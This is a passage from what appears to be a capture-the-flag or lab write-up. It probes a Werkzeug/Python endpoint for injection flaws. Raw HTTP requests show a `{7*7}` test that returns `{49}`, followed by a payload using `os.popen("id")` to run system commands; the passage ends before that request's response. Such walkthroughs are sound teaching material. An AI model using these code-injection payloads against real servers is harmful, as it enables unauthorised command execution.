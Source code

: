 But when we use POST request, we get the code echoed back to us. 
Now, this is interesting cause when we see the same input replied back to us as output, we can try different injection vulnerabilities such as SQLi, command injection, SSTi etc. 

```
POST /verify HTTP/1.1
Host: 192.168.131.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _register_hetemit_session=gqUOmpxCTU%2BZ8b3oNACheXFmUuJX5N%2BWP%2BltT7KqntFHRcaBiHIdpYT84HCMXtBbB2tEzSBuSwDNOVOiBgKWAXrpnupVMphsBisMAEmSy6PoJJEBT481LPgBwLRcXYKMAaupFmSAqz51CeXRRO%2BbHdFp6btM4qOphJFtQeLBGysqOGoqnepboD%2FOIvmpYHQyLcugpErPetzeIf4OPasMFDgoBD8SRzh0LEm8R4kmF85f53BQqTaW%2F2ibFktj%2Fop4s2aPRDlJC2vyEH%2ByICuGv95jHPfbOVn2h3ceEuZSph3I--%2F8n08ek6wERCk2TG--iW5SiN97ItbFtShjuIHroQ%3D%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

code={7*7}

-----------------------------------------------------------------------------------------------------------------------------------------

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 4
Server: Werkzeug/1.0.1 Python/3.6.8
Date: Mon, 31 May 2021 18:14:49 GMT

{49}
```

 When we give `code` parameter value as `{7*7}`, we can see that the output comes to be `{49}`. This can be a potential indication of **Server Side Template Injection (SSTI)**.  Let us dig deep into it now.

The server is **Werkzeug 1.0.1**. It is a python based server (python 3.6.8). Let us see if we can inject arbitrary python code in the `code` parameter.

```
POST /verify HTTP/1.1
Host: 192.168.131.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _register_hetemit_session=gqUOmpxCTU%2BZ8b3oNACheXFmUuJX5N%2BWP%2BltT7KqntFHRcaBiHIdpYT84HCMXtBbB2tEzSBuSwDNOVOiBgKWAXrpnupVMphsBisMAEmSy6PoJJEBT481LPgBwLRcXYKMAaupFmSAqz51CeXRRO%2BbHdFp6btM4qOphJFtQeLBGysqOGoqnepboD%2FOIvmpYHQyLcugpErPetzeIf4OPasMFDgoBD8SRzh0LEm8R4kmF85f53BQqTaW%2F2ibFktj%2Fop4s2aPRDlJC2vyEH%2ByICuGv95jHPfbOVn2h3ceEuZSph3I--%2F8n08ek6wERCk2TG--iW5SiN97ItbFtShjuIHroQ%3D%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

code={os.popen("id").read()}

-----------------------------------------------------------------------------------------------------------------------------------------

```